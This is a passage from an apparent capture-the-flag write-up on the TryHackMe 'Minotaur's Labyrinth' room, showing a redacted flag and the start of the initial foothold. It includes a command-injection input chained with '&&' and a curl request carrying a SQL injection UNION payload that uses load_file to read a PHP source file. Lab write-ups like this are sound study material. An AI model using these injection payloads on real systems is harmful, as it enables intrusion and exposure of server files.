 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Minotaur's-Labyrinth/images/a5.png)

Yes!! We found the second flag and a `Secret_Stuff` page.

**Flag2:**
```
fla6{Redacted}
```

# Initial Foothold

**echo.php:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Minotaur's-Labyrinth/images/a6.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Minotaur's-Labyrinth/images/a7.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Minotaur's-Labyrinth/images/a8.png)

Maybe it's vulnerable to **command injection**?? Let's give it a try:

**Input:**
```
&& ping -c 4 10.18.61.134
```

**Output:**
```
You really think this is gonna be possible i fixed this @Deadalus -_- !!!? 
```

Looks like there are some **filters** happening. Let's **combine with the SQL Injection** vulnerbility to see it's **source code**!

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# curl -X POST http://$RHOSTS/api/people/search -d "namePeople=' UNION ALL SELECT NULL,NULL,load_file('/var/www/html/echo.php')-- -"

```